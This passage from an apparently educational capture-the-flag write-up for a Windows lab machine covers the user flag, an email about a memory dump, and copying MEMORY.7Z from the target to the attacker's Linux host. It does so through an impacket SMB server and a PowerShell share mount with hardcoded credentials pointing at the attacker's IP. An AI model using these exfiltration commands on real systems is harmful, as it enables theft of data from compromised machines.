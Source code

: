 ![Untitled](Freelancer%20ddb658cf8b564ba0b3c161a2c4e057cb/Untitled%2012.png)

I see myself as mikasaAckerman user. And the desktop of this user contains the user flag.

## Root Flag

In the desktop of mikasaAckerman, alongside user.txt there is also mail.txt which contains:

```
Hello Mikasa,
I tried once again to work with Liza Kazanoff after seeking her help to troubleshoot the BSOD issue on the "DATACENTER-2019" computer. As you know, the problem started occurring after we installed the new update of SQL Server 2019.
I attempted the solutions you provided in your last email, but unfortunately, there was no improvement. Whenever we try to establish a remote SQL connection to the installed instance, the server's CPU starts overheating, and the RAM usage keeps increasing until the BSOD appears, forcing the server to restart.
Nevertheless, Liza has requested me to generate a full memory dump on the Datacenter and send it to you for further assistance in troubleshooting the issue.
Best regards,
```

There is also MEMORY.7Z here. I downloaded the 7z file from windows box to my linux machine using python impacket smb server. 

First I opened a smb server using command: `impacket-smbserver share . -smb2support -user rezy -password rezy`. And then mounted the share using:

```
$SharePath = "\\10.10.14.72\share"
$Username = "rezy"
$Password = "rezy"

# Create a credential object
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $Username, (ConvertTo-SecureString -String $Password -AsPlainText -Force)

# Mount the SMB share
net use Z: $SharePath $Password /user:$Username /persistent:no
```
